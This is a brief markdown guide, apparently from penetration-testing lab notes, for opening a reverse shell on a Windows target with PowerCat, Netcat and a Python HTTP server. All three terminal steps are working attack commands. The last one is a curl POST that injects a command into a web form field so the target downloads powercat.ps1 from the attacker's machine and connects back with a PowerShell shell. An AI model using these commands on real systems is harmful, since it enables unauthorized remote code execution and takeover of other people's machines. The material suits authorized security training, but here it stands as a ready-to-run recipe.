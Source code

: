 # Overview
Create a reverse shell on a windows target using PowerCat, NetCat and a Python http server.
This technique requires three terminal sessions with each of the above running
## Terminal 1
~~~ bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1

python3 -m http.server 80
~~~
## Terminal 2
~~~ bash
nc -nvlp 4444
~~~
## Terminal 3
~~~ bash
# the ip address of the kali machine needs to be included here so that the reverse shell is directed to the right machine.  It is in 2 places below

# the two places are where the ip address 192.168.45.163

curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.163%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.163%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
~~~
